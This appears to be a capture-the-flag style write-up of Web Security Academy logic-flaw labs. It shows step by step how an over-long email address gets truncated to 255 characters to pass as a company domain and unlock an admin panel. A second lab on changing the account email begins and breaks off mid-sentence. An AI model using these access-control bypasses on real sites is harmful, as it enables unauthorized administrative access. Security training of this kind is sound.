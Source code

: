 This lab doesn't adequately validate user input. You can exploit a logic flaw in its account registration process to gain access to administrative functionality.

There is /admin interface. Admin interface is only available if logged in as a DontWannaCry user.

`@exploit-accd1fe01eba9513c0a3965d01ec0079.web-security-academy.net`

At the registration phase, very-long-string@YOUR-EMAIL-ID.web-security-academy.net The very-long-string should be at least 200 characters long.

`$ ./pattern_create.rb -l 250 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A`

`aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9af0af1af2af3af4af5af6af7af8af9ag0ag1ag2ag3ag4ag5ag6ag7ag8ag9ah0ah1ah2ah3ah4ah5ah6ah7ah8ah9ai0ai1ai2a@exploit-accd1fe01eba9513c0a3965d01ec0079.web-security-academy.net`

then log in the account, we can see email addresses as

`aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9af0af1af2af3af4af5af6af7af8af9ag0ag1ag2ag3ag4ag5ag6ag7ag8ag9ah0ah1ah2ah3ah4ah5ah6ah7ah8ah9ai0ai1ai2a@expl`

There are 255 chars.

`aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9af0af1af2af3af4af5af6af7af8af9ag0ag1ag2ag3ag4ag5ag6ag7ag8ag9ah0ah1ah2ah3ah4ah5ah6ah7ah8a@dontwannacry.com`

We are matching the value as shown to get access admin rights.

`aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9af0af1af2af3af4af5af6af7af8af9ag0ag1ag2ag3ag4ag5ag6ag7ag8ag9ah0ah1ah2ah3ah4ah5ah6ah7ah8a@dontwannacry.com.exploit-accd1fe01eba9513c0a3965d01ec0079.web-security-academy.net`

Then we need to register again with this email. After the login phase, we can see Admin panel tab.

Your email is: aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9af0af1af2af3af4af5af6af7af8af9ag0ag1ag2ag3ag4ag5ag6ag7ag8ag9ah0ah1ah2ah3ah4ah5ah6ah7ah8a@dontwannacry.com

The application server truncated the address associated with your account to 255 characters. As a result, you have been able to register with what appears to be a valid @dontwannacry.com address.

### Lab: Inconsistent security controls

This lab's flawed logic allows arbitrary users to access administrative functionality that should only be available to company employees.

We registered a new account. There is an info at register page. Registered with - `attacker@exploit-aca21ffe1e6dd48bc05d356c016b0026.web-security-academy.net`

If you work for DontWannaCry, please use your @dontwannacry.com email address

At the my account page there is a Email Update function. Changed with -&#x20;
